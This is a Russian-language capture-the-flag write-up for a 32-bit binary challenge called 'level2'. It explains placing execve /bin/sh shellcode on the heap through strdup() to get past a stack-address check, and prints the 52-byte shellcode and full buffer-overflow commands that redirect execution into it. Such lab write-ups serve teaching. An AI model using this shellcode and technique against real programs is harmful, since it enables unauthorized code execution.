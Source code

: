## level2
На схеме мы видим, что в функции `main` совершается единственное действие — вызов функции `p()`

![](docs/img/level2_1.png)

Рассмотрим эту функцию.

![](docs/img/level2_2.png)

Сразу в глаза бросается отсутствие вызова `/bin/sh`, а, значит, необходимо внедрить shellcode. Сравнение `if ((__return_addr & 0xb0000000) != 0xb0000000)` защищает от записи адреса содержащегося в стеке, следовательно, в стек мы не можем записать shellcode, зато мы можем записать его в кучу. Это нам позволит сделать `strdup()`. C помощью [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) находим оффсет регистра `eip - 80`. Используя команду `arch` видим, что у нас 32-битная виртуальная машина. Находим соответствующий `shellcode`, который занимает 52 байта:

```py
\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68
```

Добиваем остаток оффсета любыми символами (например, `a`), дописываем адрес возврата `strdup()` — `0x0804a008`, записанный в обратном порядке. В итоге получаем:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"') | ./level2
```

Вход в оболочку происходит, но после этого нас сразу выкидывает. Допишем команду `cat`, ожидающую ввода, чтобы получить желаемый результат:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"'; cat) | ./level2
```